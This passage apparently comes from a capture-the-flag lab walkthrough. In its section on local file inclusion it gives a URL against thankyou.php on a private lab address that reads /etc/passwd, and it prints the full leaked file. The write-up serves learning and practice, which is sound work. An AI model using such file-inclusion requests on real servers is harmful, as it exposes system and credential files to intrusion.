

3.2 Local file inclusion (LFI)
Go to your browser and type:
http://192.168.12.59/thankyou.php?file=/etc/passwd

In text:
root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin bin:x:2:2:bin:/bin:/usr/sbin/nologin sys:x:3:3:sys:/dev:/usr/sbin/nologin sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/usr/sbin/nologin man:x:6:12:man:/var/cache/man:/usr/sbin/nologin lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin mail:x:8:8:mail:/var/mail:/usr/sbin/nologin news:x:9:9:news:/var/spool/news:/usr/sbin/nologin uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin proxy:x:13:13:proxy:/bin:/usr/sbin/nologin www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin backup:x:34:34:backup:/var/backups:/usr/sbin/nologin list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin systemd-timesync:x:100:103:systemd Time Synchronization,,,:/run/systemd:/bin/false systemd-network:x:101:104:systemd Network Management,,,:/run/systemd/netif:/bin/false systemd-resolve:x:102:105:systemd Resolver,,,:/run/systemd/resolve:/bin/false systemd-bus-proxy:x:103:106:systemd Bus Proxy,,,:/run/systemd:/bin/false Debian-exim:x:104:109::/var/spool/exim4:/bin/false messagebus:x:105:110::/var/run/dbus:/bin/false statd:x:106:65534::/var/lib/nfs:/bin/false sshd:x:107:65534::/var/run/sshd:/usr/sbin/nologin dc:x:1000:1000:dc,,,:/home/dc:/bin/bash mysql:x:108:113:MySQL Server,,,:/nonexistent:/bin/false
 Index
Index